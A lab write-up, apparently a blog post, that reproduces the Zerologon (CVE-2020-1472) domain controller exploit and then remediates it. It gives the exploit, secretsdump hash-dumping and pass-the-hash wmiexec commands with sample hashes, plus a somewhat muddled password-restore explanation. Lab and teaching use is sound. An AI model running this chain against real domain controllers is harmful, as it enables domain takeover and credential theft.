 # CVE - 2020–1472 (Zerologon Vulnerability)-Exploitation & Remediation

**NOTE**: This is my first vulnerability-related writeup and I have tried to write and explain in layman terms. There may be knowledge gaps in between, which I am trying my hardest to cover and understand

**I have tried to reproduce the vulnerability in this blog entry, while trying to understand it's severity and impact**

\=====================================================================

### **Section 1 — Exploiting Zerologon Vulnerability(CVE 2020–1472)**

**About the Vulnerability**

Netlogon is a service that runs on the Domain Controller. This service is responsible for authenticating user logins — effectively verifying the user is who they claim to be. As this function is one of the core functions of a Domain Controller, the Netlogon service cannot be stopped or firewalled off from networks of domain-joined computers.

* CVSS Score — 10
* Attack Complexity — Low
* Privileges Required — Low
* Vulnerability Found — July 2020​

![](https://cdn-images-1.medium.com/max/1000/1\*zdJeAc4HdVPaL8jvpmfpWw.png)

\=====================================================================

### **Exploitable Point**

The Netlogon RPC service, used for computer and user authentication in Windows, also allows a computer to update its computer password within the domain. For several historical reasons, this service does not use standard authentication protocols to authenticate the computer. The vulnerability exists within the non-standard method used to authenticate.

Twitter thread providing a nice walkthrough — [https://twitter.com/\_dirkjan/status/1306280553281449985](https://twitter.com/\_dirkjan/status/1306280553281449985)

\=====================================================================

### **Exploitation Walkthrough**

> What do you need?&#x20;
>
> Impacket — to capture password hashes and dump them&#x20;
>
> Windows 10 OS (on which the vulnerable service exists)&#x20;
>
> Windows 10 VM — to perform the exploit on RangeForce’s&#x20;
>
> ZeroLogon Vulnerability Lab (Guided Mode)

First, let’s clone the [impacket](https://github.com/SecureAuthCorp/impacket) repository from Github&#x20;

Step to install:-

> git clone [https://github.com/SecureAuthCorp/impacket.git](https://github.com/SecureAuthCorp/impacket.git)

Now, let’s copy the exploit too from Github \<cve-2020–1472-exploit.py>

Credits to [dirkjanm](https://github.com/dirkjanm).

> [https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)

Export the exploit to /impacket/examples/CVE-2020–1472/

Now, let’s switch to this directory

By now, we have identified the following details about the vulnerable service:-

> NetBIOS computer name: DC IP address: 192.168.0.4

> Syntax of exploit command:- ./cve-2020–1472-exploit.py -n \<NetBIOS computer name> -t \<IP address>

Now to run the script and exploit

> ./cve-2020–1472-exploit.py -n DC -t 192.168.0.4​

![What does this exploit do?](https://cdn-images-1.medium.com/max/1000/1\*yq9qEq8dTnIFQwn39Wt-Fw.png)

**What does this exploit do?**

It resets the Domain Controller’s account password to an empty string(easy login with a spacebar)

The gist: Your Domain Controller account’s password is a blank string

**Next objective-**dump password hashes from the Domain Controller

> Domain Controller name NetBios Name IP Address of vulnerable host

We make use of the secretsdump.py module from Impacket to perform this task

> Password Dump command syntax- python3 secretsdump.py -no-pass -just dc\<Domain/NETBIOS\_NAME\\\[email protected]>

(This command does not work with the simple execution command ./)

Filling in the blanks:-

> python3 secretsdump.py -no-pass -just-dc CONTOSO.AZURE/DC\\$@192.168.0.4

![This leads to the dumping of around 60 password](https://cdn-images-1.medium.com/max/1000/1\*t2iS-\_QDxa2kfwo3JlOdBw.png)

&#x20;This leads to the dumping of around 60 password hashes:-

​

![](https://cdn-images-1.medium.com/max/1000/1\*GZye3Qhobt6Qf\_7HQruMxQ.png)

​**Next objective** — Logging onto the account of ContosoAdmin (Domain Controller admin’s account) — using the account’s dumped hash

Scrolling through the dumped list, we find the appropriate entry:-​

![](https://cdn-images-1.medium.com/max/1000/1\*KpuYcdLqTSeE6BvaneTOOQ.png)

Logging on to the server, using the wmiexec.py module:-

> python3 wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:a2bd759faf686d052f5f7c8337a2ff51 CONTOSO.AZURE/DC\\$@192.168.0.4

​We are in!

![](https://cdn-images-1.medium.com/max/1000/1\*1Ai0FvKkDd-jXyAVQLsHzg.png)

\=====================================================================

### **S**​**ection 2 — Remediation from the Vulnerability**

**How?**

* Manually restoring your password (or)
* Update and install the August 2020 & February 2021 Patch Tuesday release for the same (patches released in two phases)

**(Manual Password Restore) — How does it work?**

As you exploit the vulnerability, the password hash is being erased and replaced with a blank string in the SAM file, from where your computer cross-checks passwords as a user logs in

Using the same methodology, we copy your compromised password (blank space in this case) from the SAM hive to the Domain Controller of the exploited machine. Further, copy it to your Kali VM and then delete it from the Domain Controller

Which we achieve from the following steps:-

​

![](https://cdn-images-1.medium.com/max/1000/1\*GHrg-fhyBO30lYWDRwwhWw.png)

​Now exiting the Windows machine, using exit- to the Kali machine

The next task is to parse the obtained SAM file, from the Domain Controller

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL Why parse? — To see where accounts are mapped to and to gain other information​![](https://cdn-images-1.medium.com/max/750/1\*q8r1dbLK4yGkr2R2QhjSAQ.png)![](https://cdn-images-1.medium.com/max/1000/1\*ZBl3hRpBypYvSE4FreGP-A.png)

> Recovered password hash — 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

Now to place the final piece of the jigsaw — restoring the original password. For that, we have a customized script named — reinstall\_original\_pw.py

> Syntax — reinstall\_original\_pw.py \<DC\_NETBIOS\_NAME> \<DC\_IP\_ADDR> \<ORIG\_NT\_HASH>

Filling in the blanks here,

> ./reinstall\_original\_pw.py DC 192.168.0.4 89ed2eb25e25770b7dd850e797ef8c7b49cc4d793ea50f9db33fe91cde5b97c20b8aa582a3acd371618e7f7ed5ad9ee87df1d073641c6718cb63ed7409711480

\=====================================================================

### **Conclusion** <a href="#investigating-windows" id="investigating-windows"></a>

This is an easy vulnerability to exploit, with less complexity, considering that we are still dependant on IT Systems to perform administrative tasks. This may be disputed, but 100% security may be a myth unless drastic action is taken to respond and patch even the slightest of issues

Thank you for the time taken to devour this purple team blog entry.
